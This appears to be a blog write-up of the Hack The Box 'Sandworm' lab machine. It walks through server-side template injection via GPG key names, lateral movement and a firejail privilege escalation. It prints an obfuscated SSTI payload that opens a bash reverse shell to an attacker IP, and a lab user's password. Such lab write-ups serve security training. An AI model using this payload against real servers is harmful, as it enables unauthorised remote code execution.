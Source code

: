 ```yaml
---
layout: post
title: "HTB Linux Medium: Sandworm"
description: "Sandworm is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```



## Nmap
![Pasted image 20240714210737.png](/images/Pasted image 20240714210737.png){: .normal }

Modify the hosts file, add the `ssa.htb` domain:
![Pasted image 20240714210717.png](/images/Pasted image 20240714210717.png){: .normal width="500"}


## _**Initial Foothold**_

### Enumerating HTTP (Port 443)
Run Gobuster for directory enumeration (use -k flag to disable certificates).
![Pasted image 20240714210712.png](/images/Pasted image 20240714210712.png){: .normal }

The page found on /guide lets us verify signatures. We can test SSTI in here.
![Pasted image 20240714210708.png](/images/Pasted image 20240714210708.png){: .normal }

Start off by generating a gpg key, set your payload in the "Real name" field.
![Pasted image 20240714210703.png](/images/Pasted image 20240714210703.png){: .normal }

Next up, we can print our public gpg key (which is used on the website).
![Pasted image 20240714210656.png](/images/Pasted image 20240714210656.png){: .normal width="500" }

Now we can create signed text that we will decrypt on the website (which will execute our SSTI).
![Pasted image 20240714210649.png](/images/Pasted image 20240714210649.png){: .normal width="500" }

Next, enter your public key and signed message on the website and press "Verify Signature".
![Pasted image 20240714210638.png](/images/Pasted image 20240714210638.png){: .normal width="460"}

As you can see our SSTI was successful as it displays 49 instead of {% raw %}`{{7x7}}`{% endraw %}, since we know we have SSTI on the box we can use it to establish a reverse shell using the following payload.
![Pasted image 20240714210629.png](/images/Pasted image 20240714210629.png){: .normal }
{% raw %}
```bash
{{self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNTUvMTIzNCAwPiYxJwo= | base64 -d | bash').read() }}
```
{% endraw %}

Repeat the same steps as before (now entering our payload in the Real Name field) to establish a reverse shell.
![Pasted image 20240714210622.png](/images/Pasted image 20240714210622.png){: .normal width="600" }


## _**Lateral Movement**_
User credentials can be found for the silentobserver user in the following file `silentobserver:quietLiketheWind22`.
![Pasted image 20240714210618.png](/images/Pasted image 20240714210618.png){: .normal }

SSH into the box as the silentobserver user.
![Pasted image 20240714210612.png](/images/Pasted image 20240714210612.png){: .normal }

Checking for running processes we find that the atlas user is running target/debug/tipnet.
![Pasted image 20240714210609.png](/images/Pasted image 20240714210609.png){: .normal width="700" }

Looking at the files in the debug folder we see the following.
![Pasted image 20240714210604.png](/images/Pasted image 20240714210604.png){: .normal width="600" }

In the tipnet.d file we can see files that are being ran.
![Pasted image 20240714210557.png](/images/Pasted image 20240714210557.png){: .normal }

The second one seems to have write permissions (we can put a reverse shell in here).
![Pasted image 20240714210552.png](/images/Pasted image 20240714210552.png){: .normal }

Payload.
![Pasted image 20240714210546.png](/images/Pasted image 20240714210546.png){: .normal }


## _**Priv Esc**_
Sticky bit on firejail found using Linpeas.
![Pasted image 20240714210541.png](/images/Pasted image 20240714210541.png){: .normal }


Googling for a firejail SUID exploit we find a Python script that we can run.
![Pasted image 20240714210536.png](/images/Pasted image 20240714210536.png){: .normal }

In another instance, we can join the firejail and change our user to root.
![Pasted image 20240714210525.png](/images/Pasted image 20240714210525.png){: .normal width="450"}


## User.txt
![Pasted image 20240714210511.png](/images/Pasted image 20240714210511.png){: .normal width="400"}


## Root.txt
![Pasted image 20240714210505.png](/images/Pasted image 20240714210505.png){: .normal width="400"}


## You have PWNED
![Pasted image 20240714210500.png](/images/Pasted image 20240714210500.png){: .normal }


### Sources
- [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Reverse Shell](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
- [Firejail exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)